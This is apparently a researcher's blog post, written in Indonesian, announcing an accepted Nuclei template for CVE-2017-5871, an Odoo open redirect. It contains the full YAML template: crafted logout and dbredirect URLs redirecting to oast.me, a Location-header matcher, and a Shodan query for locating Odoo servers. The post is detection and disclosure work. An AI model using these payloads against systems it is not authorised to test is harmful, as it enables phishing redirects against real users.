 ```yaml
---
title: Odoo LEQ 8.0-20160726 and 9.0 Open Redirect
excerpt: 01 Oktober 2024, saya menyumbangkan Template CVE-2017-5871 untuk ProjectDiscovery (Nuclei Templates). 02 Oktober 2024, Template CVE-2017-5871 sedang dalam proses peninjauan. 03 Oktober 2024, Template CVE-2017-5871 disetujui.
date: 2024-10-01 01:37:00
tags: [cve]
categories:
  - [1337rokudenashi]
index_img: https://wallpapercave.com/wp/wp9273756.jpg
banner_img: https://wallpapercave.com/wp/wp9273756.jpg
---
```


01 Oktober 2024, saya menyumbangkan Template CVE-2017-5871 untuk ProjectDiscovery (Nuclei Templates). 02 Oktober 2024, Template CVE-2017-5871 sedang dalam proses peninjauan. 03 Oktober 2024, Template CVE-2017-5871 disetujui.

```yaml
id: CVE-2017-5871

info:
  name: Odoo <= 8.0-20160726 & 9.0 - Open Redirect
  author: 1337rokudenashi
  severity: medium
  description: |
    An Open Redirect vulnerability in Odoo versions <= 8.0-20160726 and 9.0. This issue allows an attacker to redirect users to untrusted sites via a crafted URL.
  impact: |
    Successful exploitation can redirect users to malicious sites, potentially leading to phishing attacks or information theft.
  remediation: |
    Update Odoo to the latest patched version provided by the vendor.
  reference:
    - https://sysdream.com/cve-2017-5871-odoo-url-redirection-to/
    - https://nvd.nist.gov/vuln/detail/CVE-2017-5871
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
    cvss-score: 5.4
    cve-id: CVE-2017-5871
    cwe-id: CWE-601
    cpe: cpe:2.3:a:odoo:odoo:8.0:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 1
    shodan-query: title:"Odoo"
    product: odoo
    vendor: odoo
  tags: cve2017,cve,odoo,redirect

http:
  - method: GET
    path:
      - "{{BaseURL}}/web/session/logout?redirect=https://oast.me"
      - "{{BaseURL}}/web/session/logout?redirect=https%3a%2f%2foast.me%2f"
      - "{{BaseURL}}/web/dbredirect?redirect=https%3a%2f%2foast.me%2f"

    stop-at-first-match: true
    matchers:
      - type: regex
        part: header
        regex:
          - '(?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)oast\.me.*$'
# digest: 4a0a00473045022020526a4a017f0ebf412281aa95a72bf7a4f658c9f0762e3d04f8e7777c27c3aa02210096b1d8f905d0add3542ab88bf2780fff501aecd56d8e99a7d7ddd25f44bcd9ae:922c64590222798bb761d5b6d8e72950
```

Ini adalah bentuk kontribusi saya sebagai Security Researcher. Odoo LEQ 8.0-20160726 and 9.0 Open Redirect [(1337rokudenashi)](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2017/CVE-2017-5871.yaml)
